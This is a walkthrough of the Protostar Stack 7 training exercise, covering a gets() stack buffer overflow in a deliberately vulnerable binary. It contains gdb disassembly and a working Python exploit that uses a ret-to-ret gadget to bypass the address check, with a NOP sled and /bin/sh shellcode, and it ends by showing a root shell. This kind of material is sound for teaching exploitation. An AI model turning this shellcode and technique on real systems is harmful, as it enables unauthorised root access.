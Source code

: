 # PROTOSTAR : STACK 7
[Protostar:Stack7](https://exploit.education/protostar/stack-seven/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

Same as the previous level the **main()** calls **getpath()** where **buffer** variable is and **gets** which is vulnerable to Buffer Overflow takes **buffer** as input. **Stack Address Restriction** is applied in the program so we need to bypass it by returning to the function itself.

Below is the disassembly of the **getpath()** function.
```
user@protostar:/tmp$ gdb -q /opt/protostar/bin/stack7
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) set disassembly-flavor intel
(gdb) disass getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   ebp
0x080484c5 <getpath+1>: mov    ebp,esp
0x080484c7 <getpath+3>: sub    esp,0x68
0x080484ca <getpath+6>: mov    eax,0x8048620
0x080484cf <getpath+11>:        mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    eax,ds:0x8049780
0x080484dc <getpath+24>:        mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:        and    eax,0xb0000000
0x080484fd <getpath+57>:        cmp    eax,0xb0000000
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    eax,0x8048634
0x08048509 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:        mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    eax,0x8048640
0x08048529 <getpath+101>:       lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave  
0x08048544 <getpath+128>:       ret    
End of assembler dump.
(gdb) 
```
### **PYTHON SCRIPT**

```py
import struct
padding = "A"*80

ret = struct.pack("I",0x08048544)

print(padding + ret)
```

Executing the above script, you see I hit Breakpoint 1 once again because stack popped the **getpath()** address and returned to the function itself.

```
(gdb) b *0x08048544
Breakpoint 1 at 0x8048544: file stack7/stack7.c, line 24.
(gdb) r < ./exploit
Starting program: /opt/protostar/bin/stack7 < ./exploit
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAAAAAAAAAAAAD�

Breakpoint 1, 0x08048544 in getpath () at stack7/stack7.c:24
24      stack7/stack7.c: No such file or directory.
        in stack7/stack7.c
(gdb) x/4x $esp
0xbffff7ac:     0x08048544      0x08048500      0x00000000      0xbffff838
(gdb) si

Breakpoint 1, 0x08048544 in getpath () at stack7/stack7.c:24
24      in stack7/stack7.c
(gdb) 
```

Let's add some nop sleds and our shellcode and write our python exploit script and execute it to get the ROOT SHELL.

Below is the python script I am going to execute
```py
import struct
padding = "A"*80

ret = struct.pack("I",0x08048544)

eip = struct.pack("I",0xbffff7b0+20)

nop = "\x90"*100

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print(padding + ret + eip + nop + shellcode)
```

After executing the exploit code we get the root shell.
```user@protostar:/tmp$ (python exploit.py; cat) | /opt/protostar/bin/stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAAAAAAAAAAAAD��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��PS���

whoami
root


```

